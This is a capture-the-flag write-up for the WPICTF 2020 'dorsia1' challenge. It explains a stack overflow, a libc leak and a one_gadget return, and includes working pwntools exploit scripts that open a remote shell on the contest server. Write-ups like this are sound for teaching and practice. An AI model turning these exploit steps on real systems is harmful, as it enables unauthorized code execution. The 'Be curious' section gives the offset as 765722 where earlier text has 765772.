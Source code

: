 # WPICTF 2020

## dorsia1

> 100
>
> [http://us-east-1.linodeobjects.com/wpictf-challenge-files/dorsia.webm](../dorsia.webm) The first card.
>
> `nc dorsia1.wpictf.xyz 31337 or 31338 or 31339`
>
> made by: awg
> 
> _Hint: Same libc as dorsia4, but you shouldn't need the file to solve._

Tags: _pwn_ _bof_ _remote-shell_


### Analysis

#### Roll the film ([dorsia.webm](../dorsia.webm))

![](dorsia1.png)

Quite possibly one of the best movies scenes ever (your results may vary), augmented with _new pwn_.  And ..., there are two verbal hints in the clip: _stack smash_ and _fgets_.

What I most appreciate about this challenge is that this is a legit fuckup.  You could (and can) actually expect someone to mistype the `69` as `96`.

The hint: _Same libc as dorsia4, but you shouldn't need the file to solve_, was actually delivered later in the challenge as users keep asking for the libc version.  I do not fully agree with that.  For starters is this x86_64, x86, arm, or something else?

The `printf` leaks the location of `system` with an offset (`765772`), this can be used to both determine the version of libc as well as the architecture.

Assuming x86_64 (safe bet) _stack smash_ with 69 bytes + 8 bytes for the saved base pointer then an 8 byte address as the new return address.  That leaves 16 bytes left (15 really since `fgets` will only read 68 bytes (one less than size parameter)).  This is important, because it'll tell you what will not work: `pop rdi; ret`, pointer to `/bin/sh`, `system`.  Which is exactly what I tried first (habit, I prefer this over gadgets because it is portable).  That 96th byte will be a NULL (0x00), and unless the remote libc address space starts with `0x00` (and it does not), then this will not work.  Plan B: try a gadget.

However, there is a 2nd, easier solution, and the hint spells that out for you.  `765772`.  What is that number and what does it mean?  It pays to be curious.


### Exploit

#### Attack Plan

1. Leak libc address
2. Find libc version
3. Find a gadget
2. Get the flag


#### Leak libc address

```python
#!/usr/bin/env python3

from pwn import *

p = remote('dorsia1.wpictf.xyz',31337)

_ = p.recvline().strip()

system = int(_,16) - 765772
print(hex(system))
```


#### Find libc version

```python
import os
stream = os.popen("libc-database/find system " + str(hex(system & 0xFFF)) + " | grep /glibc/ | sed 's/)//' | awk '{print $NF}'")
output = stream.read().strip()
stream.close()

libc = ELF('libc-database/db/' + output + '.so')
baselibc = system - libc.symbols['system']
print("libc:" + str(hex(baselibc)))
print('libc-database/db/' + output + '.so')
```

This code assumes you have the libc-database cloned locally, however there's an online version as well: [https://libc.blukat.me/](https://libc.blukat.me/) (tip from @ins0--thanks!).  Personally I prefer the local version, esp. if searching for gadgets or ROP chains, but it can also take about 30 minutes to download.  Options are good to have.

Running this will output:

```
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
0x783e16412440
[*] '/pwd/datajerk/wpictf2020/dorsia1/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc:0x783e163c3000
libc-database/db/libc6_2.27-3ubuntu1_amd64.so
```

Now we have the libc version and binary.


#### Find a gadget

```
# one_gadget libc-database/db/libc6_2.27-3ubuntu1_amd64.so

0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

`0x4f322` looks the most promising.


#### Get the flag

```python
gadget = 0x4f322

payload  = 69 * b'A'
payload += 8 * b'B'
payload += p64(baselibc + gadget)
payload += (96 - len(payload)) * p8(0)

p.sendline(payload)
p.interactive()
```

Filling the rest of the stack with NULLs is just habit--it can help however with `one_gadget`.

Output:

```
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
0x7386ccfc1440
[*] '/pwd/datajerk/wpictf2020/dorsia1/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc:0x7386ccf72000
libc-database/db/libc6_2.27-3ubuntu1_amd64.so
[*] Switching to interactive mode
$ cat flag.txt
WPI{FEED_ME_A_STRAY_CAT}
```


#### Flag

```
WPI{FEED_ME_A_STRAY_CAT}
```


### Be curious

```python
#!/usr/bin/env python3

from pwn import *

p = remote('dorsia1.wpictf.xyz',31337)

_ = p.recvline().strip()

gadget = int(_,16)

payload  = 69 * b'A'
payload += 8 * b'B'
payload += p64(gadget)
payload += (96 - len(payload)) * p8(0)

p.sendline(payload)
p.interactive()
```

This basically just sends back `system+765722` as the return address in our _stack smash_.

Output:

```
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
[*] Switching to interactive mode
$ cat flag.txt
WPI{FEED_ME_A_STRAY_CAT}
```


#### What is `system+765722`?

Let's find out:

```
# python3
Python 3.7.5 (default, Nov 20 2019, 09:21:52)
[GCC 9.2.1 20191008] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')
[*] '/pwd/datajerk/wpictf2020/dorsia1/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
>>> print(hex(libc.symbols['system'] + 765722))
0x10a35a
```

Looking at the `one_gadget` output above it looks pretty close to `0x10a38c`.



